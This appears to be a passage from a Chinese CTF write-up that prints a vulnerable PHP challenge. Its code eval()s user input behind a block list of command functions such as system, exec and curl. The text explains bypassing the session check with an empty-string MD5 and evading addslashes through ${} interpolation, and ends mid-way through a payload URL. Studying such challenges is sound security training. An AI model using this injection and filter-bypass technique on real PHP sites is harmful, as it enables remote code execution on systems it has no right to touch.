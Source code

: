 ## **0x05 CODE**

![](img/c601bff492b06515be087dcb3b65e3ef.png)

毫无卵用的加密，然后对eval一步一步echo得出如下源代码：

| <?php// error_reporting(E_NOTICE);highlight_file(__FILE__);@session_start();$username = @$_GET['whoami'];if(!@isset($username['admin'])&#124;&#124;$username['admin'] != @md5($_SESSION['username'])) {die('error!');} else {if(isset($_GET['code'])) {$admin = $_GET['code'];$admin = addslashes($admin);if(preg_match('/\{openlog&#124;syslog&#124;readlink&#124;symlink&#124;popepassthru&#124;stream_socket_server&#124;scandir&#124;assert&#124;pcntl_exec&#124;fwrite&#124;curl&#124;system&#124;eval&#124;assert&#124;flag&#124;passthru&#124;exec&#124;system&#124;chroot&#124;chgrp&#124;chown&#124;shell_exec&#124;proc_open&#124;proc_get_status&#124;popen&#124;ini_alter&#124;ini_restore([^}]+)\}/i' , $admin)) {die('error!');}if (intval($admin)) {eval('"' .$admin .('"./hh.php"') .')}}";');}} else {eval('$flag="' .$admin . '";');}}?> |

这里$_SESSION[username]是null，所以我们只要使用一个空的md5串就行：whoami[admin]=d41d8cd98f00b204e9800998ecf8427e

下面$_GET[code]经过了addslashes函数，无法闭合下面eval('"' .$admin .('"./hh.php"') .')}}";');的双引号，我们打印一下如图：

![](img/12057a24ff0d0feb4f415ac2939ee8f7.png)

这里肯定回抛出一个语法错误的，因为语法格式是错误的。

但是在双引号包裹${}进行执行还有一个姿势，如图：

![](img/4e1836fb78f9c9bf5ad9d9dee6d09ccf.png)

这种写法就允许了两对双引号在未经反斜杠转义下的解析。

那么构造Payload：?whoami[admin]=d41d8cd98f00b204e9800998ecf8427e&code=1${${print(
